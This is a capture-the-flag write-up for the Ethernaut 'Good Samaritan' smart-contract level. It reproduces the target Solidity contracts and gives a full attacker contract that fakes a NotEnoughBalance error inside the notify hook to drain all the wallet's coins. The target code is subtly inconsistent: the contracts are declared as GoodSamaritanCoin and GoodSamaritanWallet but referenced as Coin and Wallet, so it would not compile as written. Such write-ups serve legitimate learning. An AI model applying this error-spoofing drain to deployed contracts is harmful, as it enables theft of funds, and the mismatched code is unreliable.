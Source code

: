 # Ethernaut: 27. Good Samaritan

> This instance represents a Good Samaritan that is wealthy and ready to donate some coins to anyone requesting it. Would you be able to drain all the balance from his Wallet?

**Objective of CTF:**

- Drain the Good Samaritan wallet.

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity >=0.8.0 <0.9.0;

import "@openzeppelin/contracts/utils/Address.sol";

contract GoodSamaritan {
  Wallet public wallet;
  Coin public coin;

  constructor() {
    wallet = new Wallet();
    coin = new Coin(address(wallet));

    wallet.setCoin(coin);
  }

  function requestDonation() external returns (bool enoughBalance) {
    // donate 10 coins to requester
    try wallet.donate10(msg.sender) {
      return true;
    } catch (bytes memory err) {
      if (keccak256(abi.encodeWithSignature("NotEnoughBalance()")) == keccak256(err)) {
        // send the coins left
        wallet.transferRemainder(msg.sender);
        return false;
      }
    }
  }
}

contract GoodSamaritanCoin {
  using Address for address;

  mapping(address => uint256) public balances;

  error InsufficientBalance(uint256 current, uint256 required);

  constructor(address wallet_) {
    // one million coins for Good Samaritan initially
    balances[wallet_] = 10 ** 6;
  }

  function transfer(address dest_, uint256 amount_) external {
    uint256 currentBalance = balances[msg.sender];

    // transfer only occurs if balance is enough
    if (amount_ <= currentBalance) {
      balances[msg.sender] -= amount_;
      balances[dest_] += amount_;

      if (dest_.isContract()) {
        // notify contract
        INotifyable(dest_).notify(amount_);
      }
    } else {
      revert InsufficientBalance(currentBalance, amount_);
    }
  }
}

contract GoodSamaritanWallet {
  // The owner of the wallet instance
  address public owner;

  Coin public coin;

  error OnlyOwner();
  error NotEnoughBalance();

  modifier onlyOwner() {
    if (msg.sender != owner) {
      revert OnlyOwner();
    }
    _;
  }

  constructor() {
    owner = msg.sender;
  }

  function donate10(address dest_) external onlyOwner {
    // check balance left
    if (coin.balances(address(this)) < 10) {
      revert NotEnoughBalance();
    } else {
      // donate 10 coins
      coin.transfer(dest_, 10);
    }
  }

  function transferRemainder(address dest_) external onlyOwner {
    // transfer balance left
    coin.transfer(dest_, coin.balances(address(this)));
  }

  function setCoin(Coin coin_) external onlyOwner {
    coin = coin_;
  }
}

interface INotifyable {
  function notify(uint256 amount) external;
}
```

We are asked to deplete the coins of a Good Samaritan contract. What makes it a good samaritan? Well, it has tons of coins and is willing to donate them, only 10 at a time though. To deplete all 1 million coins of the contract, we would have to take more than 10 at a time.

Thankfully, the author of this level literally gaves us the clue in a comment, under `requestDonation` function at the comment that says: `send the coins left`. Looking at this function, it is a try-catch clause that handles an exception thrown during `wallet.donate10(msg.sender)`. Specifically, if the exception is due to error `NotEnoughBalance();` then it will send all the remaining coins.

How could `donate10` throw an exception? Apparently, it does throw `NotEnoughBalance();` only when there is not enough balance :). However, that is not where the function call ends, it also goes to `coin.transfer`.

Under `coin.transfer` we finally see something that touches our end: if the transfer happens and it is to a contract account, then `notify(uint256 amount)` function is called there to basically let that contract know about this transfer.

Such things are called **hooks**, allowing contracts to run code before / after / during an event, provided that they support the hook function. You can find more about them in [OpenZeppelin docs](https://docs.openzeppelin.com/contracts/3.x/extending-contracts#rules_of_hooks) too.

Looking back, we are supposed to throw `NotEnoughBalance();` during the transfer, and we may very well do that within our `notify` handler. There is a catch though: if you simply do that it will also revert the `transferRemainder` call too. So we can just check if the `amount` is 10, and revert in that case only. Our resulting attacker contract is as follows:

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0;

// interface to call target function
interface IGoodSamaritan {
  function requestDonation() external returns (bool enoughBalance);
}

contract Attack {
  // error signature will be taken from here
  error NotEnoughBalance();

  // entry point for our attack, simply requests a donation
  function pwn(address _addr) external {
     IGoodSamaritan(_addr).requestDonation();
  }

  // notify is called when this contract receives coins
  function notify(uint256 amount) external pure {
    // only revert on 10 coins
    if (amount == 10) {
        revert NotEnoughBalance();
    }
  }
}
```
